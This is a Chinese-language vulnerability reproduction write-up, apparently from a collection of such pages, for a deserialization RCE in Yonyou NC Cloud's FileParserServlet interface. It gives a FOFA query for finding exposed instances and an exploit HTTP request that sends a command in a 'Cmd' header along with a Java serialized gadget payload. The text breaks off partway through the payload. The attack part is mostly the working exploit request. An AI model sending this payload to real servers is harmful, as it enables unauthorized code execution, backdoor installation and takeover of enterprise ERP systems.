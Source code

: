 
# 用友 NC Cloud FileParserServlet 反序列化 RCE 漏洞复现

### 0x01 产品简介

 用友 NC Cloud 是一种商业级的企业资源规划云平台，为企业提供全面的管理解决方案，包括财务管理、采购管理、销售管理、人力资源管理等功能，实现企业的数字化转型和业务流程优化。

### 0x02 漏洞概述

用友 NC Cloud FileParserServlet 接口存在反序列化代码执行漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

### 0x03 复现环境

FOFA：app="用友-NC-Cloud"

![](assets/1701826097-0d170dcc8a231ed8025babd1f728c625.png)

### 0x04 漏洞复现

Exp

```http
POST /service/~uapss/nc.search.file.parser.FileParserServlet HTTP/1.1
Host: {{Hostname}}
Cmd: whoami
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 20434

{
  {unquote("\xac\xed\x00\x05sr\x00\x11java.util.HashSet\xbaD\x85\x95\x96\xb8\xb74\x03\x00\x00xpw\x0c\x00\x00\x00\x02?@\x00\x00\x00\x00\x00\x01sr\x004org.apache.commons.col
```
